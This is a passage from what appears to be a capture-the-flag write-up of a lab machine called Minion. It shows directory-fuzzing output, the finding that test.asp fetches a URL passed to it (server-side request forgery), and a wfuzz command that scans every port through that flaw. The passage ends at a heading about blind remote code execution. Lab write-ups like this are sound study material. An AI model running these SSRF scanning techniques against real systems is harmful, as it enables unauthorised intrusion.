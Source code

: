 ```
200      GET        1l        7w       41c http://10.10.10.57:62696/test.asp
301      GET        2l       10w      156c http://10.10.10.57:62696/backend => http://10.10.10.57:62696/backend/
200      GET        1l        3w       20c http://10.10.10.57:62696/backend/default.asp
[####################] - 2m    159498/159498  0s      found:3       errors:0      
[####################] - 2m     79749/79749   491/s   http://10.10.10.57:62696 
[####################] - 2m     79749/79749   491/s   http://10.10.10.57:62696/backend 

```

It finds `/backend`, as well as `default.asp` inside that. `default.asp` is just the same “Instance not running” message.

There’s also a `test.asp` in the root.

#### test.asp

Visiting `test.asp` returns an error:

![image-20220405082333490](https://0xdfimages.gitlab.io/img/image-20220405082333490.png)

It’s suggesting I need to pass a URL (likely in the `u` parameter). When I try `test.asp?u=http://10.10.14.6/`, it returns a 500 error:

![image-20220405082506299](https://0xdfimages.gitlab.io/img/image-20220405082506299.png)

This means the server crashed. When I try `test.asp?u=http://10.10.10.57:62696/`, it returns the Minions site:

![image-20220405082600446](https://0xdfimages.gitlab.io/img/image-20220405082600446.png)

## Shell as defaultapppool

### Blind RCE Via Admin Panel

#### Fuzz for Open Ports

It seems that `test.asp` cannot access pages on my host, but it can load pages from Minion itself. I’ll use `wfuzz` to try all ports, hiding any 500 responses with `--hc 500`:

```

oxdf@hacky$ wfuzz -u http://10.10.10.57:62696/test.asp?u=http://10.10.10.57:FUZZ/ -z range,1-65535 --hc 500
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.57:62696/test.asp?u=http://10.10.10.57:FUZZ/
Total requests: 65535

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                
===================================================================

000000080:   200        0 L      0 W      0 Ch        "80"
000005985:   200        0 L      0 W      0 Ch        "5985"
000047001:   200        0 L      0 W      0 Ch        "47001"
000062696:   200        13 L     37 W     458 Ch      "62696"

Total time: 7341.232
Processed Requests: 65535
Filtered Requests: 65531
Requests/sec.: 8.926974
```